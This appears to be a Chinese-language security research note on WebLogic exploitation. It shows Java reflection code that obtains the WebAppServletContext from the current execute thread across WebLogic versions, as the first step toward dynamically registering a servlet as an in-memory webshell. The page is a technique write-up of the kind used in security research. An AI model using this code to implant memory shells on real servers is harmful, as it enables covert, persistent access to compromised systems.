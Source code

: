 ##### 漏洞修复

##### 漏洞利用（可选）



ref:
- https://mp.weixin.qq.com/s/AL8hT3zhIsK4ItwcHpiylQ

利用篇
---

### 内存马

#### 获取上下文 WebAppServletContext

- WebAppServletContext

```java
Class<?> executeThread = Class.forName("weblogic.work.ExecuteThread");
Method getCurrentWork = executeThread.getDeclaredMethod("getCurrentWork");
Object currentWork = getCurrentWork.invoke(Thread.currentThread());
WebAppServletContext webAppServletContext;
try { 
	// weblogic 12.1.3
	Field connectionHandler = currentWork.getClass().getDeclaredField("connectionHandler");
	connectionHandler.setAccessible(true);
	Object httpConnectionHandler = connectionHandler.get(currentWork);
	Field requestF = httpConnectionHandler.getClass().getDeclaredField("request");
	requestF.setAccessible(true);
	httpConnectionHandler = requestF.get(httpConnectionHandler);
	java.lang.reflect.Field contextF = httpConnectionHandler.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(httpConnectionHandler);
} catch (Exception e) {
	// weblogic 1036
	Field contextF = currentWork.getClass().getDeclaredField("context");
	contextF.setAccessible(true);
	webAppServletContext = (WebAppServletContext) contextF.get(currentWork);
}
```

#### 动态注册Servlet内存马  

跟了一下从web.xml添加servet的流程，可以使用registerServlet方法注册Servlet，不过不同版本的weblogic对该方法有不同实现:

##### 10.3.6.0
![image](https://user-images.githubusercontent.com/55024146/143993515-f149070e-9ea0-487b-8dbf-fcb8f1682fcd.png)


成员方法
- weblogic.servlet.internal.WebAppServletContext#registerServlet()

![image](https://user-images.githubusercontent.com/55024146/143996030-4614d0d7-e77f-47e6-8540-ec40f41dc296.png)
